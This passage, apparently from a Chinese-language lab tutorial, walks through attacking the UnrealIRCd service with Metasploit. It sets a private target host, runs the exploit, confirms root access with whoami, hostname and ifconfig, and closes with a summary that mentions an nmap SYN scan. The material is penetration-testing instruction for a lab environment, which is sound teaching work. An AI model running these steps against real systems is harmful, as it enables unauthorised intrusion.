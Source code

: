使用 `set` 命令，设置所要攻击的主机：

```
# 设置目标主机
set RHOST 192.168.122.102
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1479994266380.png-wm)

一切就绪后，再使用 `exploit` 进行主机攻击：

```
# exploit 命令进行攻击
exploit
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1479994466227.png-wm)

# 四、验证渗透攻击

### 4.1 验证渗透是否成功

验证渗透是否成功常用的三个命令：`whoami` 和 `hostname` 以及 ip 地址查看命令：`ifconfig`：

```
# 通过 whoami 命令，判断当前用户是谁
whoami

# 通过 hostname 判断当前主机名称
hostname

# 通过 ifconfig 来判断当前主机的 ip 地址
ifconfig

```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1479994538961.png-wm)

由图可知，在输入命令后，`whoami` 对应的值为 `root` 和 `hostname` 以及 ip 地址为 `192.168.122.102`,渗透攻击成功。


## 五、总结

### 5.1 实验总结

在本实验的学习过程中，我们对 Kali 漏洞扫描工具 Nmap 的理解，得到了进一步的加深。对于一些常用的 Nmap 命令，如：

```
nmap -sS -T4 <target ip>
```
本实验主要介绍了渗透攻击 Unreal Ircd 服务的流程。对 Metasploit 的攻击步骤，进一步进行演示，每一个步骤，在实验的讲解中，都配有图片。在学完这个课程后，你至少明白了这些知识点：

- Unreal Ircd 漏洞原理
- Nmap 渗透扫描基础
- Metasploit 攻击流程
- 渗透成功后验证
